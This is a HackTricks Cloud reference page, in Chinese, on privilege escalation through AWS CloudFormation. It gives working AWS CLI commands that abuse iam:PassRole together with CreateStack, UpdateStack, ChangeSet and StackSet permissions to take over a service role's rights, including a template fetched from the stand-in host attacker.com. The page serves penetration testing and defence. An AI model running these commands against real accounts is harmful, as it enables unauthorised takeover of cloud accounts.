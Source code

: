 # AWS - Cloudformation 权限提升

<details>

<summary><strong>从零到英雄学习 AWS 黑客技术，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您希望在 **HackTricks 中看到您的公司广告** 或 **下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFT 集合**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>

## cloudformation

有关 cloudformation 的更多信息，请查看：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

拥有这些权限的攻击者**可以通过制作**一个自定义模板的 **CloudFormation 堆栈**，该模板托管在他们的服务器上，以**在指定角色的权限下执行操作**来**提升权限**：
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
在以下页面中，您将看到一个**利用示例**，它额外授予了**`cloudformation:DescribeStacks`**权限：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在影响：**提升至指定的cloudformation服务角色权限。

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

在这种情况下，您可以**滥用现有的cloudformation堆栈**，通过更新它来提升权限，如前一个场景所示：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来**给自己 `UpdateStack` 权限**对一个堆栈进行攻击。

**潜在影响：**提升到指定的 cloudformation 服务角色权限。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

如果你有这个权限但**没有 `iam:PassRole`**，你仍然可以**更新堆栈**并滥用**它们已经附加的 IAM 角色**。检查前一节的利用示例（更新时不要指定任何角色）。

`cloudformation:SetStackPolicy` 权限可以用来**给自己 `UpdateStack` 权限**对一个堆栈进行攻击。

**潜在影响：**提升到已经附加的 cloudformation 服务角色权限。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

拥有**传递角色和创建 & 执行 ChangeSet 权限**的攻击者可以**创建/更新一个新的 cloudformation 堆栈滥用 cloudformation 服务角色**，就像使用 CreateStack 或 UpdateStack 一样。

以下利用是**CreateStack 利用的**[**变体**](./#iam-passrole-cloudformation-createstack) 使用 **ChangeSet 权限**来创建堆栈。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来**给自己 `ChangeSet` 权限**，并执行攻击。

**潜在影响：**提升至 cloudformation 服务角色的权限。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

这种方法类似于之前的方法，不通过传递 **IAM 角色**，因此你可以直接**滥用已经附加的角色**，只需修改参数：
```
--change-set-type UPDATE
```
**潜在影响：** 提升至已连接的cloudformation服务角色的权限。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻击者可以滥用这些权限来创建/更新StackSets，以滥用任意cloudformation角色。

**潜在影响：** 提升至cloudformation服务角色的权限。

### `cloudformation:UpdateStackSet`

攻击者可以在没有passRole权限的情况下滥用此权限来更新StackSets，以滥用已连接的cloudformation角色。

**潜在影响：** 提升至已连接的cloudformation角色的权限。

## 参考资料

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>
